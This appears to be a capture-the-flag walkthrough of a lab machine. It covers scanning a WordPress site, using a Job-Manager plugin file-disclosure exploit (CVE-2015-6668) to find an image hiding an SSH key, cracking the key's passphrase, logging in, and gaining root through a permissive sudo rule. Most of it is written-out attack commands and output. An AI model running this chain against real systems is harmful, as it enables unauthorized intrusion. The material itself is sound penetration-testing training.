



Target: 10.10.10.10

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.10                          

Nmap scan report for 10.10.10.10
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.10/FUZZ -ic

wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

checking 10.10.10.10



wpscan
```
$ wpscan --url http://10.10.10.10 -e vt,ap,u  

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.10.10/ [10.10.10.10]
[+] Started: Wed Jun 16 01:53:51 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.10/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.10/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.10/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.3 identified (Insecure, released on 2017-03-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.10/index.php/feed/, <generator>https://wordpress.org/?v=4.7.3</generator>
 |  - http://10.10.10.10/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.3</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.10.10/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-04-27T00:00:00.000Z
 | Readme: http://10.10.10.10/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://10.10.10.10/wp-content/themes/twentyseventeen/style.css?ver=4.7.3
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.10.10/wp-content/themes/twentyseventeen/style.css?ver=4.7.3, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] job-manager
 | Location: http://10.10.10.10/wp-content/plugins/job-manager/
 | Latest Version: 0.7.25 (up to date)
 | Last Updated: 2015-08-25T22:44:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.2.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.10/wp-content/plugins/job-manager/readme.txt

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:03 <=====================================> (352 / 352) 100.00% Time: 00:00:03
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=======================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] takis
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.10/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

checking /jobs



checking /jobs/8


fuzzing jobs/FUZZ
```
$ ffuf -w numlist -u http://10.10.10.10/index.php/jobs/apply/FUZZ/ -fs 57555  

10                      [Status: 200, Size: 57667, Words: 3635, Lines: 396]
9                       [Status: 200, Size: 57617, Words: 3634, Lines: 396]
12                      [Status: 200, Size: 57669, Words: 3635, Lines: 396]
2                       [Status: 200, Size: 57661, Words: 3638, Lines: 396]
1                       [Status: 200, Size: 57664, Words: 3638, Lines: 396]
3                       [Status: 200, Size: 57646, Words: 3638, Lines: 396]
11                      [Status: 200, Size: 57651, Words: 3635, Lines: 396]
6                       [Status: 200, Size: 57672, Words: 3638, Lines: 396]
13                      [Status: 200, Size: 57713, Words: 3635, Lines: 396]
7                       [Status: 200, Size: 57654, Words: 3635, Lines: 396]
8                       [Status: 200, Size: 57662, Words: 3638, Lines: 396]
5                       [Status: 200, Size: 57657, Words: 3638, Lines: 396]
```

checking /jobs/13



### Findings:Looking for attack vectors

The wordpress website is running a vulnerable plugin job-manager.


## Foothold:

[Exploit link](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef)

modifying the exploit (website, filename, range)
```
<snip>
website = 'http://10.10.10.10'   
filename = 'HackerAccessGranted'

filename2 = filename.replace(" ", "-")

for year in range(2016,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png'}:
<snip>
```

running the exploit
```
$ python exploit.py

CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

downloading the image
```
$ wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

extracting 
```
$ steghide extract -sf HackerAccessGranted.jpg

Enter passphrase: 
wrote extracted data to "id_rsa".
```

cracking passphrase
```
$ python Documents/ssh2john.py id_rsa > hash

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

superpassword    (id_rsa)
```

```
$ ssh takis@10.10.10.10 -i id_rsa

takis@tenten:~$ id

uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
```

```
takis@tenten:~$ cat user.txt

<redacted>
```


## Priv Escalations:

enumerating sudo privilages
```
takis@tenten:~$ sudo -l

Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

looking what /bin/fuckin do
```
takis@tenten:~$ strings /bin/fuckin

#!/bin/bash
$1 $2 $3 $4
```

basically fuckin executes whatever the user inputs in bash

exploiting fuckin bin
```
takis@tenten:~$ sudo /bin/fuckin /bin/bash

root@tenten:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@tenten:~# cat /root/root.txt

<redacted>
```
